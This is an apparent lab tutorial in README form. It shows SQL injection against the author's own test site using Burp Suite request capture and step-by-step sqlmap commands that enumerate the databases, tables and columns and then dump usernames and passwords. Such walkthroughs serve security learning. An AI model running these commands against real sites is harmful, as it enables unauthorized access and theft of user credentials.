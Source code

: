 ### 1.SQL-INJECTION USING SQLMAP TOOL

Using SQLMAP tool and Burp suite we are going to attack and retreat data from our created website(http://rafi.host/index.php)

Check for SQL Vulnerablity in targeted website if yes then proceed with following process use simple payloads to make sure site is vulnerable.

####Step-1

Open Browser and take your targeted website and give some random username and password and wait to hit login


![image](/screenshots/1.png)

####Step-2
 when i click the submit button just i did capture the requst with Burpsuit feature.

####Step-3
 After capture the request, just save the result into a test file using right click on request you will see save item option save with a random name.

####step-4 
Now open terminal tpye ls to see your test file saved or not if it save now you are ready to do SQLI.

####Step-5
Now can run the SQlmap tool by using this command.

![image](/screenshots/2.png)

command:-
***
sqlmap -r fakebook http://rafi.host/index.php --dbs  
***
 #### Note: 
 In command fakebook is my saved file using burp and the URL that our target URL --dbs means databases.


 you want to know how to use sqlmap u can just type -h for help it show more commands and its uses 

 #### Step-6
  First observe carefully you will get so many requests and finally you will get Databases list,which is stored in target website.

![image](/screenshots/5.png)

#####Now we got database list:

 1.information_schema
 2.user 


####Step-7 
Now you can collect the tables list which is stored in databases by using this command.

command:-
***
 sqlmap -r fakebook http://rafi.host/index.php -D user --tables 
 ***

#### Note: 
In command user means we are asking the tool to fetch tables from that database.

Wow you got tables,now 

 1.user
 2.users

![image](/screenshots/9.png)

#### Step-8 
Now you need to find the columns for that tables i will select users table.

command:-
***
   sqlmap -r fakebook http://rafi.host/index.php -D user -T users ---columns
   ***

   #### Note: 
    Users means in tables i have slected that to see its columns you can use any one of it.

![image](/screenshots/4.png) 
 
 #### Step-9 
 Now we get the list of columns, if you want to read the columns, use this command.

 command:-
 ***
sqlmap -r fakebook http://rafi.host/index.php -D user -T users -C id,password,username --dump
***

 ![image](/screenshots/6.png)

 Now you can see all ids,passwords,usernames using those you can login in our target page you cracked it sucessfully BOOM!